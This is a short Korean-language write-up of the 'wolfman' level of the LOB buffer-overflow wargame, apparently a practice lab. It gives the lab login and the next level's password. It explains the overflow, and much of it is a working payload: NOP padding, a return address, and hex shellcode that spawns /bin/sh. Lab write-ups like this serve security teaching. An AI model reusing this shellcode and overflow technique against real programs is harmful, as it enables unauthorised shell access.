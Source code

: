 # [LOB] wolfman Write-up

![](./picture/wolfman_1.JPG)

```
login : orc
Password : cantata
```

위의 계정으로 로그인하면 된다. 이번 문제는 wolfman이다.

![](./picture/wolfman_2.JPG)

소스코드를 확인해보면 버퍼 40byte와 환경변수를 초기화한다. RET 주소 뒤에 쉘코드를 넣고, RET 주소에 `RET 주소 + 4` 를 넣으면 문제가 풀린다.

![](./picture/wolfman_3.JPG)

wolfman을 복사한 aaaaaaa 로 실행해서 core 덤프를 떴다.  

![](./picture/wolfman_4.JPG)

`0xbf0xff0xff0xff` 뒤에 `0x41` 부분이 쉘코드가 들어가는 부분이다. 따라서 페이로드는 다음과 같다.

```
./wolfman `python -c 'print "\x90"*44+"\xe0\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

NOP으로 44byte(buffer + SFP) + RET 주소(RET 위치 + 4) + 쉘코드(25byte)

![](./picture/wolfman_5.JPG)

비밀번호는 **love eyuna** 이다.